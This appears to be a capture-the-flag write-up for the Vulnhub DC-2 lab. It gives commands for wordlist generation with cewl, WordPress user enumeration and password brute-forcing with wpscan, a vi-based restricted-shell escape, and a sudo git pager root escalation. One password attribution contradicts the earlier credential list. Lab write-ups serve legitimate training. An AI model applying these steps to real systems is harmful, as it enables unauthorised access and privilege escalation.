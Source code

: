 <h1>DC-2 Write-up</h1>

Add 192.168.56.47   dc-2 to your host file to access WEB 

**FLAG** : http://dc-2/index.php/flag/


using cewl because as the flag hint says normal wordlist will not work

```cewl -d 5 -w wordlist http://dc-2/```


<h3>Password Attack (WPSCAN)</h3>

First Enumerate Users with the following command : 
```
wpscan --url http://dc-2/ -e u
```
Now the attack ;)

```wpscan --url http://dc-2/ -U tom,jerry -P wordlist```

![alt text](https://raw.githubusercontent.com/Vanshal/Vulnhub-Writeups/master/DC-2/images/WPbrute.png)

 Username: jerry, Password: adipiscing   
 Username: tom, Password: parturient     

**Login to ssh using tom creds :**

![alt text](https://raw.githubusercontent.com/Vanshal/Vulnhub-Writeups/master/DC-2/images/rbashescape.png)


<h3>Rbash Escape </h3>

```
vi 
:set shell=/bin/sh
:shell

PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

<h2>Priv Esc</h2>

```
su - jerry   # PASS : parturient (Found in Password attack of wordpress)
sudo -l 

PAGER='sh -c "exec sh 0<&1"' sudo -E git -p help
sudo git -p help config
!/bin/sh
```

![alt text](https://raw.githubusercontent.com/Vanshal/Vulnhub-Writeups/master/DC-2/images/privesc%20.png)
